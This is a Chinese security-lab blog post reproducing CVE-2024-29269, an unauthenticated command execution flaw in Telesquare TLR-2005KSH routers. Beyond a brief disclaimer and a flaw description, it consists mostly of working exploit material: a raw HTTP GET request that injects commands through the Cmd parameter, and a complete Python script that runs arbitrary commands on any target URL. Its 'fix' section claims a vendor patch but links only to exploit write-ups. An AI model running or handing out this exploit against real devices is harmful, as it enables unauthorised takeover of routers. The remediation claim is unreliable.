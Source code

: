 #  【成功复现】Telesquare TLR-2005KSH路由器远程命令执行漏洞(CVE-2024-29269)   
原创 弥天安全实验室  弥天安全实验室   2024-04-07 18:17  
  
网安引领时代，弥天点亮未来     
  
  
  
  
  
   
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
**0x00写在前面**  
  
  
**本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！**  
0x01漏洞介绍Telesquare Tlr-2005Ksh是韩国Telesquare公司的Sk Telecom Lte路由器。Telesquare TLR-2005Ksh 1.0.0和1.1.4版本存在未经授权的远程命令执行漏洞。攻击者可以利用此漏洞在未经Cmd参数授权的情况下执行系统命令并获取服务器权限。0x02影响版本Telesquare TLR-2005Ksh 1.0.0和1.1.4版本0x03漏洞复现  
1.访问漏洞环境  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hD6cYvxyqzfbrmtWsNCYB4g2E15shuk7ibfWbH0ccedYoElqdxzgichiaNRNuzBGlicpxFTupBNTu3f4w/640?wx_fmt=png&from=appmsg "")  
2.对漏洞进行复现 POC （GET）漏洞复现GET /cgi-bin/admin.cgi?Command=sysCommand&Cmd=id HTTP/1.1Host: 127.0.0.1User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2762.73 Safari/537.36Connection: closeAccept-Encoding: gzip执行id命令执行ls命令3.nuclei工具测试（漏洞存在）4.python工具测试（漏洞存在）python代码import sysimport requestsimport xml.etree.ElementTree as ETdef get_systemutil_response(url, command):    endpoint = f"/cgi-bin/admin.cgi?Command=sysCommand&Cmd={command}"    full_url = url.rstrip('/') + endpoint    headers = {        'Referer': url,    }    try:        response = requests.get(full_url, headers=headers)        if response.status_code == 200:            print("Response from", full_url)            #print(response.text)            root = ET.fromstring(response.text)            for cmd_result in root.findall('CmdResult'):                data = cmd_result.text.strip()                print(data)        else:            print("Error: Failed to fetch data. Status code:", response.status_code)    except requests.exceptions.RequestException as e:        print("Error:", e)if __name__ == "__main__":    if len(sys.argv) != 3:        print("Usage: python script.py <url> <command>")        sys.exit(1)    url = sys.argv[1]    command = sys.argv[2]    #proxy = {    #    'http': 'http://127.0.0.1:8080',    #    'https': 'https://127.0.0.1:8080',    #}    get_systemutil_response(url, command)0x04修复建议目前厂商已发布升级补丁以修复漏洞，补丁获取链接：https://github.com/wutalent/CVE-2024-29269/blob/main/index.mdhttps://gist.github.com/win3zz/c26047ae4b182c3619509d537b808d2bhttps://twitter.com/win3zz弥天简介学海浩茫，予以风动，必降弥天之润！弥天安全实验室成立于2019年2月19日，主要研究安全防守溯源、威胁狩猎、漏洞复现、工具分享等不同领域。目前主要力量为民间白帽子，也是民间组织。主要以技术共享、交流等不断赋能自己，赋能安全圈，为网络安全发展贡献自己的微薄之力。口号 网安引领时代，弥天点亮未来 知识分享完了喜欢别忘了关注我们哦~学海浩茫，予以风动，必降弥天之润！   弥  天安全实验室  
  
